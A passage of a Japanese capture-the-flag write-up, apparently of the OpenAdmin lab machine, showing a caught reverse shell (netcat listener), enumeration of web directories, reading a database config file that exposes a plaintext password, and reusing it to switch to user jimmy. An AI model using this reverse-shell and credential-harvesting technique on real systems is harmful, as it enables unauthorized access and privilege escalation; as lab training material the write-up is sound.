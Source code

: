 ```sh
[1]  + continued  nc -lnvp 4444
                               ^C

www-data@openadmin:/opt/ona/www$ export SHELL=bash

www-data@openadmin:/opt/ona/www$ export TERM=xterm-256color

www-data@openadmin:/opt/ona/www$ stty rows 66 columns 236

www-data@openadmin:/opt/ona/www$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@openadmin:/opt/ona/www$ ls -l /home
total 8
drwxr-x--- 5 jimmy  jimmy  4096 Nov 22  2019 jimmy
drwxr-x--- 5 joanna joanna 4096 Jul 27  2021 joanna
```


## STEP 4
ffufで列挙した以外のwebサイトがあるっぽい
```sh
www-data@openadmin:/opt/ona/www$ ls /var/www/html
artwork  index.html  marga  music  ona  sierra
```
他にもinternalフォルダがあるが、jimmyユーザ・internalグループ以外は確認できない
```sh
www-data@openadmin:/opt/ona/www$ ls -l /var/www/
total 8
drwxr-xr-x 6 www-data www-data 4096 Nov 22  2019 html
drwxrwx--- 2 jimmy    internal 4096 Nov 23  2019 internal
lrwxrwxrwx 1 www-data www-data   12 Nov 21  2019 ona -> /opt/ona/www
```
STEP2のonaのサイトを見たところ、dbとの接続がありそうなかんじ  
ona配下のディレクトリを探索するとdbのパスワードを発見
```sh
www-data@openadmin:/opt/ona/www$ cat /var/www/html/ona/local/config/database_settings.inc.php
<www/html/ona/local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
パスワードの使いまわしをしてるかな  
してました、jimmyでログイン成功
```
www-data@openadmin:/opt/ona/www$ su jimmy
```